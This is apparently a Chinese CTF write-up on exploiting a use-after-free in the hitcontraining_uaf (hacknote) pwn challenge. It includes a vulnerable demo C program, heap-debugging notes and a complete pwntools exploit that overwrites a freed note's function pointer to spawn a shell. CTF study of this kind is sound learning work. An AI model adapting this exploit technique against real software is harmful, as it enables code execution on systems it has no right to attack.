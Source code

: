 # [BUUCTF-Pwn]hitcontraining_uaf

以此题作为对Pwn中堆利用的学习的开始。堆题初见，肯定有许多地方理解不恰当，希望师傅们能多多指教。

## 0x00.简述

成因

```
应用程序调用free()释放内存时，如果内存块小于256kb，ptmalloc并不马上将内存块释放回内存，而是将内存块标记为空闲状态。这么做的原因有两个：一是内存块不一定能马上释放回内核（比如内存块不是位于堆顶端），二是供应用程序下次申请内存使用（这是主要原因）。当ptmalloc中空闲内存量达到一定值时ptmalloc才将空闲内存释放回内核。如果应用程序申请的内存大于256kb，ptmalloc调用mmap()向内核申请一块内存，返回返还给应用程序使用。如果应用程序释放的内存大于256kb，ptmalloc马上调用munmap()释放内存。ptmalloc不会缓存大于256kb的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。
```

示例程序

```
#include <stdio.h>
#include <stdlib.h>
typedef void (*func_ptr)(char *);
void evil_fuc(char command[])
{
system(command);
}
void echo(char content[])
{
printf("%s",content);
}
int main()
{
    func_ptr *p1=(func_ptr*)malloc(4*sizeof(int));
    printf("malloc addr: %p\n",p1);
    p1[3]=echo;
    p1[3]("hello world\n");
    free(p1); //在这里free了p1,但并未将p1置空,导致后续可以再使用p1指针
    p1[3]("hello again\n"); //p1指针未被置空,虽然free了,但仍可使用.
    func_ptr *p2=(func_ptr*)malloc(4*sizeof(int));//malloc在free一块内存后,再次申请同样大小的指针会把刚刚释放的内存分配出来.
    printf("malloc addr: %p\n",p2);
    printf("malloc addr: %p\n",p1);//p2与p1指针指向的内存为同一地址
    p2[3]=evil_fuc; //在这里将p1指针里面保存的echo函数指针覆盖成为了evil_func指针.
    p1[3]("/bin/sh");
    return 0;
}
```

运行结果

![image-20210405011515386](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735910.png)

## 0x01.检查保护

![image-20210405004832680](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735801.png)

## 0x02.静态分析

![image-20210405004924203](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735026.png)

经典菜单题，进入add_note函数查看，一次只能add一个结点，最多add5个

容易观察到notelist其实是一个结构体数组，大小为8个字节，其第一个成员为函数指针（4字节），指向print_note_content函数，其第二个成员也为一个指针（4字节），指向后续malloc指定大小的空间，因此在ida中的Structures窗口添加如下结构体定义

![image-20210405005450799](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735339.png)

将notelist的类型声明改为如下所示

![image-20210405005618871](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735398.png)

优化效果：

![image-20210405005649970](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735634.png)

再看del_note函数，作用是删除指定下标的结点

![image-20210405011620907](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735957.png)

未将指针置空，存在uaf漏洞

print_note函数，打印指定下标的结构体中buf的内容

![image-20210405011959024](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735867.png)

在这个函数中会执行notelist结构体中第一个指针指向的函数，我们如果能把指针改为指向system("/bin/sh")函数，就能获得权限

后门：

![image-20210405175442208](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735511.png)

## 0x03.动态调试

我们申请了两个结构体

![image-20210405172903922](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041735242.png)

堆中情况如下：

![image-20210405172800928](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736961.png)

释放：

![image-20210405173025365](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736351.png)

堆中：

![image-20210405173052094](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736763.png)

bins:

![image-20210405173116497](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041736312.png)

## 0x04.思路

可以看到其实free过后只是更改了fd处的四个字节（插入到fastbin链表中），并没有”真正的释放“

本来，在buf(size为0x41的堆块)中fd对应的四个字节其实就是用户输入的内容的前四个字节，在指针型结构体(size为0x17的堆块)中fd对应的是print指针，即print_note_content函数的地址。现在，free过后，他们都被更改。

此时如果我们再申请一个结构体并在其内部给buf分配8字节的堆空间，就会用到fastbins中大小为0x10的两个堆

fastbin先进后出，所以原来的1号堆对应现在的指针型结构体，0号堆对应现在的buf，由于我们现在可以向buf中写东西，所以如果我们向buf中前四个字节处（也就是fd处）写入magic函数的地址，再次调用print函数尝试输出0号堆的内容时，它以为前四个字节(fd处的四个字节)是print_note_content函数的地址，而实际是magic函数的地址，所以执行的是magic函数，也就是system("/bin/sh")

简单说来，就是我们在最后print的是编号为0的堆块，它虽然已经被free掉了，但是指向它的指针没有置为null，指针仍然指向它，那么我们再通过该指针来调用它的时候，就会调用magic函数

## 0x05.exp

exp如下：

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p = process('./hacknote')

def addnote(size, content):
    p.recvuntil("choice :")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(size))
    p.recvuntil(":")
    p.sendline(content)

def delnote(index):
    p.recvuntil("choice :")
    p.sendline("2")
    p.recvuntil(":")
    p.sendline(str(index))

def printnote(index):
    p.recvuntil("choice :")
    p.sendline("3")
    p.recvuntil(":")
    p.sendline(str(index))

#gdb.attach(p)
magic_addr = 0x08048945
addnote(0x30, 'aaaa')
addnote(0x30, 'bbbb')
delnote(0)
delnote(1)
addnote(8, p32(magic_addr))
printnote(0)
p.interactive()
```

